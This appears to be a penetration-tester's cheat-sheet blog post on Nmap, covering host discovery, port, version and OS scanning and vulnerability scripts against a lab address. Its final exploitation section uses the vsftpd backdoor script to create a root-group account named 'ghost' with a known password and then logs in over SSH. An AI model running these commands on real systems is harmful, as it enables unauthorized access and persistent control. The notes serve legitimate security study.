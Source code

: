 ```yaml
---
layout: post
title: 'Nmap'
permalink: 'nmap'
category: 'notes'
subcategory: 'cheat-sheets'
---
```


## Table of Contents
* [Host Discovery](#host-discovery)
* [Port Scanning](#port-scanning)
* [Version Scanning](#version-scanning)
* [OS Fingerprinting](#os-fingerprinting)
* [Vulnerability Scanning](#vulnerability-scanning)
* [Exploitation](#exploitation)

## Host Discovery
```bash
nmap -sn 10.10.10.0/24
nmap -sn 10.10.10.0/24 --packet-trace
nmap -sn 10.10.10.0/24 -n
```

## Port Scanning
```bash
nmap 10.10.10.6 -p0-65535 -sT
nmap 10.10.10.6 -p0-65535 -sU
nmap 10.10.10.6 -p0-65535 -sT -Pn
nmap 10.10.10.6 -p0-65535 -sT --reason
nmap 10.10.10.6 -p0-65535 -sT --badsum
nmap 10.10.10.6 -p0-65535 -sS
```

## Version Scanning
```bash
nmap -sV 10.10.10.6
nmap -sV 10.10.10.6 -p T:21,22,80,443,1337
nmap -sV 10.10.10.6 -p U:53,69,123,161
nmap -sV 10.10.10.6 -Pn
nmap -A 10.10.10.6
```

## OS Fingerprinting
```bash
nmap -O 10.10.10.6
nmap -O 10.10.10.6 -T1
nmap -O 10.10.10.6 -T5
nmap -A 10.10.10.6
```

## Vulnerability Scanning
```bash
nmap --script vuln 10.10.10.6
ls /usr/share/nmap/scripts/
nmap -sC 10.10.10.6
```

## Exploitation
```bash
nmap --script vuln 10.10.10.6
nmap --script-help ftp-vsftpd-backdoor
echo 'cmd="useradd -g root -s /bin/bash ghost && echo ghost:boo | chpasswd"' > /home/victor/demo/haunt.txt
nmap --script ftp-vsftpd-backdoor --script-args-file=/home/victor/demo/haunt.txt 10.10.10.6 -p21
ssh ghost@10.10.10.6
```
